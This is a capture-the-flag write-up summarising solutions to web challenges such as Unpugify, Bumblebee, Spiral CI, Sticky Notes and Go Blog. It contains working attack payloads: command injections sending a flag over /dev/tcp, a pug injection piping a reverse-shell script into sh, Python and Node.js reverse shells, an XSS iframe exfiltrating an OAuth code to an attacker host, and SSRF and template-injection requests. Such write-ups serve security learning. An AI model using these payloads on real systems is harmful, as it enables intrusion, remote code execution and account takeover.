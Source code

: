 # Summary
-----------

## Swaggy (Easy 50pts)
1. There's a list of available APIs.
2. Use `Authorization` header with creds admin:admin

## Confidentiality (Easy 50pts)
1. Command injection, `| cat flag.txt`

## Titanic (Easy 50pts)
1. URLCapture to http://localhost/server-status
2. Get credential of `root`
3. Log in

## Integrity (Medium 50pts)
1. Command Injection, `%0acat flag.txt`

## All Baked Up (Medium 359pts)
1. GraphQL Injection
2. Get a credential for authorized user
3. Use mutation for authenticating user
4. Use token and querying flag

## OPA Secrets (Hard 298pts)
(**Unintended**)
1. Download Source code at `/security`
2. Create a secret and view it
3. Change it to id flag note

(**Intended**, from problem setter itself **@congon4tor**)

1. Create a new user.
2. Create a new secret.
3. Go to "View permissions" and inspect the values in the select to get your user's id
4. Use the SSRF in the settings page. Override the method by duplicating --request to send a post adding your user write permissions to the flag secret

```
curl 'http://<host>:<port>/updateSettings' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: session=<your-session-token>' \
  --data-raw 'url=--request+POST+http%3A%2F%2Flocalhost%3A8181%2Fv1%2Fdata%2Faccess%2Fwrite+--data-raw+%27%7B%22input%22%3A%7B%22user%22%3A%22<your-id>%22%2C%22secret%22%3A%22afce78a8-23d6-4f07-81f2-47c96ddb10cf%22%7D%7D%27'
```

5. Now get the value of the secret

```
curl 'http://<host>:<port>/getValue' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=<your-session-token>' \
  --data-raw '{"id":"afce78a8-23d6-4f07-81f2-47c96ddb10cf"}'
```

## Availability (Hard 357pts)
1. Command Injection, `%0acat flag.txt > /dev/tcp/ip_addr/port`

## Unpugify (Hard 480pts)
1. Application using pug and pug-code-gen, it has a critical security issue

template
```
html
  head
  body
    mixin print(text)
      p= text

    +print('Hello, world')
```
pretty
```
');process.mainModule.constructor._load('child_process').exec('curl https://reverse-shell.sh/ip_addr:port | sh');_=('
```

## Bumblebee (Hard 491pts)
1. Debug mode is enable
2. Send array in parameter to trigger error handling and leak snippet code
3. Zip file must have `.flower` extension
4. Django version is vulnerable with zip-slip
5. Replace `/usr/src/app/manage.py` using zip-slip then refresh

manage.py
```
#!/usr/bin/env python
import os
import sys
import socket,subprocess,os

if __name__ == '__main__':
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ip_addr",port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])

    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'bumblebee.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```

## Spiral CI (Hard 496pts) ([Detailed Writeup](Web/SpiralCI))
1. Application accepting JWT `none` algorithm
2. Tampering `user_id` to `2`
3. Calculator Project using local dependency
4. Vulnerable to dependency confusion

calc.test.js
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

## Sticky Notes (Hard 500pts) ([Detailed Writeup](Web/Sticky%20Notes))
1. The flow of oauth login for this application is something like this
`sticky-notes/oauth/signin -> oaut/oauth/authorize?state=nyx -> sticky-notes/signin_callback?code=steal&state=nyx`
2. Sticky notes application have XSS in `report a problem`
3. Steal `code` using `iframe`
4. Set `iframe` to oauth application using valid `state` and default value `redirect_url`
5. The oauth application will redirecting to sticky notes with `code` parameter
6. Send the current url to our webhook using js

payload
```
<iframe src="http://challenge.ctf.games:30783/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=Kjq4dAo18GjizCdF4sYxxO9GVFMddx&action=signin">
</iframe>
<script>
document.querySelector('iframe').addEventListener("load", function(){
    fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))
})
</script>
```

## Go Blog (Hard 500pts) ([Detailed Writeup](Web/GoBlog))
1. `url/models/` and `url/web/` leaking source code
2. Username parameter have SSTI
3. `{{.}}` get credentials of admin but password is encrypted in sha512
3. Set username to `{{.CurrentUser.ChangePassword 'nyx'}}` and visit `/profile` will change our account password to `nyx`.
4. Set username to `{{.Post.Author.ChangePassword 'nyx'}}` and visit `/post/{post_uuid_admin}` will change the password the author of post to `nyx`
5. Change password of admin, logged in and visit `/admin`
